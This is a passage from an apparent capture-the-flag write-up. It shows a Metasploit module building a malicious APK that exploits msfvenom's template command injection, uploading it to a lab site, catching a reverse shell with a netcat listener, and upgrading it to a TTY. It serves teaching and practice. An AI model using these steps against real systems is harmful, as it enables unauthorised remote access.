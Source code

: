     
    Exploit target:
    
       Id  Name
       --  ----
       0   Automatic
    

Running it creates an `.apk` file:

    
    
    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run
    
    [+] msf.apk stored at /home/oxdf/.msf4/local/msf.apk
    

### Exploit

If I wanted to catch this shell with `msfconsole`, I could start up an
`exploit/multi/handler`, but because the payload is an unstaged shell, I can
also use `nc`. I’ll start a `nc` listener on TCP 443 using `nc -lnvp 443`.
Then I’ll upload the APK to the site:

![image-20210528122202222](https://0xdfimages.gitlab.io/img/image-20210528122202222.png)

After a few seconds, the site returns an error:

![image-20210105162443427](https://0xdfimages.gitlab.io/img/image-20210105162443427.png)

But there’s shell at `nc`:

    
    
    oxdf@parrot$ nc -lvnp 443
    listening on [any] 443 ...
    connect to [10.10.14.15] from (UNKNOWN) [10.10.10.226] 52132 
    

The shell returns with no prompt, but if I enter Linux commands (like `id`)
and hit enter, they execute:

    
    
    id
    uid=1000(kid) gid=1000(kid) groups=1000(kid)
    

The shell is running as the kid user. I’ll upgrade my shell using Python to
get a TTY:

    
    
    python3 -c 'import pty;pty.spawn("bash")'
    kid@scriptkiddie:~/.ssh$ ^Z
    [1]+  Stopped                 nc -lvnp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lvnp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    kid@scriptkiddie:~/.ssh$
    